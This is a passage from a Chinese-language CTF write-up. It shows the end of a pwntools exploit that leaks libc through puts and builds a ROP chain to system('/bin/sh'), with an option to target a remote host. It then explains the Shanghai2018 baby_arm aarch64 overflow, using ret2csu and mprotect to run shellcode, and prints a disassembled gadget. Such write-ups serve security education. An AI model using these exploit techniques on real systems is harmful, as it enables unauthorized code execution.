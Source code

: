 ```python
    exit()

    io.recvuntil("See you again :)\n")
    puts_addr = u32(io.recv(4))
    pf("puts_addr", puts_addr)
    libc.address = puts_addr - libc.sym["puts"]
    
    check()
    PT(-1)
    payload2 = b"A"*0x54 + p32(g1) + p32(next(libc.search(b"/bin/sh"))) + p32(libc.sym["system"])
    write_diary(payload2)
    exit()

    io.interactive()

argc = len(sys.argv)
if argc == 1:
    io = process(localfile)
else:
    if argc == 2:
        host, port = sys.argv[1].split(":")
    elif argc == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    io = remote(host, port)

io = process(["qemu-arm", "-g", "1234", localfile])
elf = ELF(localfile)
libc = ELF(locallibc)
exp()
```

### Shanghai2018 baby_arm

aarch64的栈帧布局发生了变化，X29(fp), X30(lr)存储在栈帧底部，数据在上方。

程序首先读入512字节到bss，然后在子函数（栈帧长0x50）中读入512的数据到栈上，存在溢出。程序有一段未执行的函数，调用了mprotect将0x411000开始的0x1000字节（这段地址包含got，bss等）权限设置为0。

受此启发，将shellcode读到bss，使用mprotect修改这段地址为可执行，然后劫持控制到bss。

使用[ret2csu](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/medium-rop-zh/#ret2csu)的方式进行设置参数劫持调用。

```assembly
# 位于main函数下方的csu函数
.text:00000000004008AC loc_4008AC                              ; CODE XREF: sub_400868+60↓j
.text:00000000004008AC                 LDR             X3, [X21,X19,LSL#3]
.text:00000000004008B0                 MOV             X2, X22
.text:00000000004008B4                 MOV             X1, X23
.text:00000000004008B8                 MOV             W0, W24
.text:00000000004008BC                 ADD             X19, X19, #1
.text:00000000004008C0                 BLR             X3
.text:00000000004008C4                 CMP             X19, X20
.text:00000000004008C8                 B.NE            loc_4008AC
.text:00000000004008CC
.text:00000000004008CC loc_4008CC                              ; CODE XREF: sub_400868+3C↑j
.text:00000000004008CC                 LDP             X19, X20, [SP,#var_s10]
.text:00000000004008D0                 LDP             X21, X22, [SP,#var_s20]
.text:00000000004008D4                 LDP             X23, X24, [SP,#var_s30]
.text:00000000004008D8                 LDP             X29, X30, [SP+var_s0],#0x40
.text:00000000004008DC                 RET
```
